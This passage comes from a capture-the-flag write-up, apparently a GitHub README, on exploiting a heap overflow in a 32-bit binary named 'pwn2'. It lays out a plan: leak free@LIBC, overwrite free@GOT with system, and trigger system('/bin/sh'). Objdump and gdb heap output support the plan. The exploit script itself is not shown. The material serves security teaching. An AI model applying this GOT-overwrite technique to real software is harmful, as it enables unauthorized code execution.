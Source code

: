 ### Building our strategy
This binary only has Partial RELRO, meaning we can overwrite addresses in the Global Offset Table (GOT). We can overwrite the `free@GOT` entry which originally points to `free@LIBC` to instead point to `system@LIBC`.

* Remember earlier (during Static Analysis) we spotted the `deletePerson` routine calls free twice, first for a `Person`'s `name` pointer?

* If we overwrite `free@GOT` to point to `system@LIBC` then call `deletePerson` on a `Person` whose name holds `"/bin/sh"`, we will effectively call `system("/bin/sh")`!

* The address to `free@GOT` is always the same. The address to `system@LIBC` is however not, because of ASLR. 

**So how do we get the adrress to system@LIBC?**

**Easy**: The offset between `free@LIBC` and `system@LIBC` is always the same. We can overwrite P[2]->name with a ptr to `free@GOT`, and then call `printPerson` on P[2]. This will cause `free@LIBC` to be printed to us!

### Battle plan:
* Create 4 Persons:
    * `P[0]: name="AAAA"`
    * `P[1]: name="BBBB"`
    * `P[2]: name="CCCC"`
    * `P[3]: name="/bin/sh"`
* Carefully overwrite the pointer to P[2]->name with a ptr to `free@GOT`, which is located at `0x08191028`:
```
$ objdump -R pwn2 | grep 'free'
08191028 R_386_JUMP_SLOT   free@GLIBC_2.0
```
* Call `printPerson` on P[2] to leak `free@LIBC`
* Calculate the address for `system@LIBC`
* `Edit` P[2]->name which points to `free@GOT`: overwrite its pointer to `free@LIBC` with the calculated `system@LIBC`address.
* `Delete` P[3] will execute `system("/bin/sh")`!

**For further clarity**, here is what the heap looks like after exploitation, with ASLR enabled. The exploit itself is located further below.
<pre>
gdb-peda$ x/32wx 0xf7be8240 - 0x60
0xf7be81e0:	0x00000000	0x00000000	0x00000000	0x00000021
0xf7be81f0:	0x41414141	0x0000000a	0x00000000	0x00000000
0xf7be8200:	0x00000000	0x00000000	0x00000000	0x00000021
0xf7be8210:	0x42424242	0x42424242	0x42424242	0x42424242
0xf7be8220:	0x42424242	0x42424242	0x42424242	0x42424242
0xf7be8230:	0x080ebb10	0x08191028	0x0000000a	0x00000021
                                [free@GOT]
P[2]->name now points to free@GOT instead of where the string "CCCC\n" is located (0xf7be8240, below)

0xf7be8240:	0x43434343	0x0000000a	0x00000000	0x00000000
0xf7be8250:	0x00000000	0x00000000	0x00000000	0x00000011
